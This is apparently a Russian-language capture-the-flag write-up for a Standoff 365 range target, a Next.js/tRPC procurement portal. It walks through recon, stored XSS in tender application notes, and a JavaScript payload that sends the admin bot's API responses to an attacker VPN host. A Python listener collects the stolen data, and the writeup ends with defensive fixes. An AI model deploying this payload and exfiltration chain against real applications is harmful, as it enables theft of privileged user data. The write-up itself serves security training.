

# Ftender — Standoff Standalone

**Платформа:** [Standoff 365](https://standoff365.com) · Standalone (battle 44)  
**Скоуп:** `ftender.standalone.stf` · `10.124.249.18`  
**Стек:** Next.js (App Router) · tRPC · NextAuth / Auth.js · SQLite  
**Ивент:** утечка конфиденциальных данных закупок · **2500** баллов  

> [!NOTE]
> Портал Pipeline для управления закупками и поставщиками. Критичка — не RCE, а данные, которые обычный поставщик видеть не должен.

| | |
|---|---|
| **Флаг** | `41601b32-819b-4ec4-9b32-aade73b5cb34` |
| **Бот** | `coco-marchand` (`538754a8-a39e-4c2c-a01a-3d5dd2c8ff41`) |
| **Вектор** | Stored XSS в `notes` заявки → админский `tender.getAll` → private tender |

---

## TL;DR

1. На `:80` — **FTender** (Next.js + tRPC + NextAuth)
2. API целиком в `/api/trpc/*` — карту процедур берём из JS-бандлов, не фаззим REST
3. В деталке тендера `notes` заявки рендерятся через `dangerouslySetInnerHTML`
4. Все тендеры принадлежат одному owner → кидаем XSS в `applyForTender`
5. Бот `coco-marchand` открывает заявки **с JS** → эксфильтруем `tender.getAll`
6. У админа появляется `private: true` тендер → UUID в `commercialOffer` = флаг



---

## 0. Легенда → гипотеза

> Портал для управления закупками и поставщиками… упростить бухгалтерию.

Сразу мысль: ивент про **закрытые закупочные данные**, а не про шелл.  
На борде у топа `2500` за событие и `0` за уязвимости → достаточно реализовать ивент.

---

## 1. Разведка

```bash
curl -sI http://10.124.249.18/
curl -sI -H 'Host: ftender.standalone.stf' http://10.124.249.18/
```

| Заголовок | Значение | Вывод |
|-----------|----------|--------|
| `Server` | `nginx/1.18.0` | фронт nginx |
| `X-Powered-By` | `Next.js` | React / App Router |
| `Vary: RSC, Next-Router-...` | есть | React Server Components |

Лендинг: **F-Tender**, кнопка Sign In → `/auth/signin`.

### Публичные маршруты

| URL | Код | Заметка |
|-----|-----|---------|
| `/` | 200 | лендинг |
| `/auth/signin` | 200 | логин |
| `/auth/register` | 200 | регистрация |
| `/api/auth/csrf` | 200 | CSRF NextAuth |
| `/api/auth/providers` | 200 | только Credentials |
| `/api/auth/session` | 200 | `null` без логина |
| `/tenders` | auth | основная зона |
| `/partners` | auth | партнёры |
| `/profile` | auth | профиль + аватар |

В `providers` видно:

```json
"signinUrl": "http://localhost:8080/api/auth/signin/credentials"
```

Кривой `AUTH_URL` / внутренний порт. Для флага не нужен, но намекает: приложение (и бот) живут локально на хосте — позже подтвердится через `document.domain === 127.0.0.1`.

---

## 2. Регистрация и логин — карта tRPC

### Почему сразу JS, а не ffuf

Форма register — клиентский React. Submit идёт не в классический `<form action>`, а через **tRPC mutation**.

Чанк:

```text
/_next/static/chunks/app/auth/register/page-....js
```

```js
p = d.F.profile.signUp.useMutation()
await p.mutateAsync({ username: e, password: s })
// success → router.push("/auth/signin")
```

Клиент:

```js
url: window.location.origin + "/api/trpc"
headers: { "x-trpc-source": "nextjs-react" }
```

> [!TIP]
> Весь бэкенд — `/api/trpc/<router>.<procedure>`.  
> Не фазь REST. Качай бандлы и ищи `F.*.useQuery` / `useMutation` — получишь полную карту API.

### Регистрация

```bash
curl -s -H 'Host: ftender.standalone.stf' \
  -H 'Content-Type: application/json' \
  -H 'x-trpc-source: nextjs-react' \
  -d '{"json":{"username":"astxdd","password":"astxdd18"}}' \
  http://10.124.249.18/api/trpc/profile.signUp
```

```json
{"result":{"data":{"json":{"rowsAffected":1,"lastInsertRowid":"3",...}}}
```

→ под капотом **SQLite**.

### Логин NextAuth

```bash
# CSRF
curl -s -c jar.txt -H 'Host: ftender.standalone.stf' \
  http://10.124.249.18/api/auth/csrf

# Credentials
curl -s -c jar.txt -b jar.txt -H 'Host: ftender.standalone.stf' \
  -X POST http://10.124.249.18/api/auth/callback/credentials \
  --data-urlencode "csrfToken=$CSRF" \
  --data-urlencode "username=astxdd" \
  --data-urlencode "password=astxdd18" \
  --data-urlencode "json=true"
```

```http
Set-Cookie: authjs.session-token=...; HttpOnly; Path=/; SameSite=Lax
```

```bash
curl -s -b jar.txt -H 'Host: ftender.standalone.stf' \
  http://10.124.249.18/api/auth/session
```

```json
{"user":{"id":"...","username":"astxdd"},"expires":"..."}
```

> [!WARNING]
> Cookie **HttpOnly** → при XSS `document.cookie` бесполезен.  
> План: `fetch(same-origin)` → POST тела ответа на свой VPN-сервер.

---

## 3. Процедуры после логина

Из layout / page-чанков:

| Процедура | Тип | Назначение |
|-----------|-----|------------|
| `profile.signUp` | mutation | регистрация |
| `profile.getMe` | query | свой профиль |
| `profile.changeProfilePicture` | mutation | аватар (PNG data URL) |
| `tender.getAll` | query | список тендеров |
| `application.applyForTender` | mutation | заявка `{tenderId, notes}` |
| `application.getTenderApplications` | query | заявки по тендеру |

Страницы: `/tenders`, `/partners`, `/profile`.

### `tender.getAll`

```bash
curl -s -b jar.txt -H 'Host: ftender.standalone.stf' \
  'http://10.124.249.18/api/trpc/tender.getAll?input=%7B%22json%22%3Anull%7D'
```

Наблюдения:

- ~31 тендер (`tendering` / `awarded`)
- у **всех** один `owner`: `538754a8-a39e-4c2c-a01a-3d5dd2c8ff41`
- у обычного юзера все `"private": false`

> [!IMPORTANT]
> Один owner на все тендеры = одна мишень для бота. XSS в заявке попадёт именно к нему.

---

## 4. Поиск XSS

Чанк деталки тендера:

```text
/_next/static/chunks/app/tenders/%5Btender%5D/page-....js
```

### Логика UI

```text
если owner == текущий user  → список заявок (getTenderApplications)
иначе                       → форма applyForTender
если status == draft        → "This tender is only visible to you"
```

### Sink — `notes` заявки

```js
dangerouslySetInnerHTML: {
  __html: e.notes ?? "No notes"
}
```

Также на странице:

```js
dangerouslySetInnerHTML: { __html: r.commercialOffer }
```

`commercialOffer` пишет владелец. Нам нужен вход через **`notes`**.

В UI:

- *Warning: You can send only one application per tender*
- *Do not forget to add contact details to your offer*

**Почему это сразу XSS:**

1. `notes` сохраняются as-is (HTML)
2. Рендер через `dangerouslySetInnerHTML` без санитизации
3. Читает их **owner**
4. Owner всех тендеров — один UUID

---

## 5. Что отбросили

| Идея | Результат |
|------|-----------|
| Ломать `localhost:8080` в Auth | шум, не флаг |
| SVG/HTML в аватар | только PNG, API `Failed to process image` |
| IDOR чужих applications | на пустые тендеры `[]` |
| Создать свой тендер | `/tenders/new` = 500, create-* не нашли |
| Копипаста Portal writeup 1:1 | на Portal бот без JS; здесь JS **есть** |

---

## 6. Payload и слушатель

VPN IP атакующего (пример): `10.127.205.214`.

```html
r.text())
  .then(d=>fetch('http://YOUR_VPN_IP:8128/sess',{method:'POST',body:d,mode:'no-cors'}));
fetch('/api/trpc/tender.getAll?input=%7B%22json%22%3Anull%7D')
  .then(r=>r.text())
  .then(d=>fetch('http://YOUR_VPN_IP:8128/tenders',{method:'POST',body:d,mode:'no-cors'}));
fetch('/partners')
  .then(r=>r.text())
  .then(d=>fetch('http://YOUR_VPN_IP:8128/partners',{method:'POST',body:d,mode:'no-cors'}));
">
```

Почему так:

1. HttpOnly → крадём не cookie, а **ответы API от имени жертвы**
2. Админский `tender.getAll` может вернуть `private: true`
3. `/api/auth/session` — кто открыл страницу
4. `` — стабильный trigger

Минимальный catcher (POST body):

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import datetime, os

OUT = "/tmp/xss_exfil"
os.makedirs(OUT, exist_ok=True)

class H(BaseHTTPRequestHandler):
    def do_GET(self):
        print(datetime.datetime.now(), self.client_address[0], "GET", self.path)
        self.send_response(200); self.end_headers(); self.wfile.write(b"ok")

    def do_POST(self):
        n = int(self.headers.get("Content-Length", 0))
        data = self.rfile.read(n)
        path = f"{OUT}/{self.path.strip('/') or 'post'}.bin"
        open(path, "wb").write(data)
        print(datetime.datetime.now(), self.client_address[0],
              "POST", self.path, "len", n, "->", path)
        print(data[:400])
        self.send_response(200); self.end_headers(); self.wfile.write(b"ok")

    def log_message(self, *a):
        pass

HTTPServer(("0.0.0.0", 8128), H).serve_forever()
```

```bash
python3 xss_catcher.py
# ip -4 addr show tun0   ← свой VPN IP в payload
```

---

## 7. Отправка заявки

Любой тендер со статусом `tendering`, например  
`f4d42472-b172-4f01-b777-bf458df9f444` (*Pipeline Corrosion Monitoring System Deployment*):

```bash
curl -s -b jar.txt \
  -H 'Host: ftender.standalone.stf' \
  -H 'Content-Type: application/json' \
  -H 'x-trpc-source: nextjs-react' \
  -d '{"json":{"tenderId":"f4d42472-b172-4f01-b777-bf458df9f444","notes":"<PAYLOAD>"}}' \
  http://10.124.249.18/api/trpc/application.applyForTender
```

Ожидаем `200`, `rowsAffected: 1`.

Проверка, что HTML не режется:

```bash
# input = {"json":{"tenderId":"..."}}
curl -s -b jar.txt -H 'Host: ftender.standalone.stf' \
  "http://10.124.249.18/api/trpc/application.getTenderApplications?input=..."
```

В `notes` — наш payload целиком.

> Одна заявка на тендер. Для надёжности можно пройтись по 2–3 `tendering`.

---

## 8. Бот

Через ~30–90 сек на catcher:

```text
10.124.249.18  POST /sess      len≈118
10.124.249.18  POST /tenders   len≈41k
10.124.249.18  POST /partners  len≈17k
UA=... HeadlessChrome/136 ...
```

Probe с `document.domain`:

```text
GET /dom/127.0.0.1
```

Выводы:

- бот **исполняет JS** (не как на Portal, где только качали `src`);
- крутится локально (`document.domain = 127.0.0.1`);
- открыл тендер **как owner** и отрисовал `notes`.

### `/sess`

```json
{
  "user": {
    "id": "538754a8-a39e-4c2c-a01a-3d5dd2c8ff41",
    "username": "coco-marchand"
  }
}
```

Совпало с `owner` → бот = **`coco-marchand`**.

---

## 9. Флаг

Админский `tender.getAll` (POST `/tenders`):

| Роль | Тендеров | private |
|------|----------|---------|
| обычный юзер | 31 | все `false` |
| `coco-marchand` | **32** | один `true` |

```json
{
  "id": "aa508ea1-1fb1-4a67-bc2d-d648a4371369",
  "title": "Next-Gen Downhole Signal Transceiver Integration",
  "private": true,
  "commercialOffer": "<p>41601b32-819b-4ec4-9b32-aade73b5cb34</p><h3>Scope of Work</h3>..."
}
```

**Флаг:**

```text
41601b32-819b-4ec4-9b32-aade73b5cb34
```

Смысл ивента: закрытый тендер + внутренний UUID в коммерческом предложении, недоступные поставщику.

`/partners` — просто «Our friends», без секрета.

```bash
python3 - <<'PY'
import json
j = json.load(open("/tmp/xss_exfil/tenders.bin"))
for x in j["result"]["data"]["json"]:
    if x.get("private"):
        print(x["title"])
        print(x["commercialOffer"][:200])
PY
```

---

## 10. Полный чейн

```text
[1] Recon
    Next.js + tRPC + NextAuth + SQLite
        │
[2] Register / Login
    profile.signUp → authjs.session-token (HttpOnly)
        │
[3] Auth area
    tender.getAll → все тендеры одного owner
        │
[4] JS review
    applyForTender(notes)
    getTenderApplications → dangerouslySetInnerHTML(notes)
        │
[5] Stored XSS
    notes = 
        │
[6] Bot coco-marchand
    HeadlessChrome + JS (127.0.0.1)
        │
[7] Exfil as admin
    tender.getAll includes private:true
        │
[8] Flag
    commercialOffer → 41601b32-819b-4ec4-9b32-aade73b5cb34
```

---

## 11. Чеклист повтора

- [ ] VPN, пингуется `10.124.249.18`
- [ ] Свой VPN IP в payload
- [ ] Catcher на `0.0.0.0:8128`
- [ ] `profile.signUp` + логин → cookie
- [ ] `tenderId` любого `tendering`
- [ ] XSS в `notes` через `applyForTender`
- [ ] POST с `10.124.249.18`
- [ ] В дампе `"private": true` → UUID

---

## 12. Защита

1. Не рендерить `notes` / `commercialOffer` через `dangerouslySetInnerHTML` без санитизации (DOMPurify / markdown без raw HTML).
2. CSP: без inline handlers, allowlist скриптов.
3. Private-тендеры: жёсткий ACL на API, не только «спрятать в UI».
4. Мониторинг заявок с HTML / `onerror` / внешними URL в `notes`.

---

## Связанное

На **Portal** бот тоже HeadlessChrome, но **не исполнял JS** (только тянул `src`) — классический XSS из статей там не отрабатывал.  
На **Ftender** JS включён → цепочка stored XSS → admin fetch работает как в учебниках.
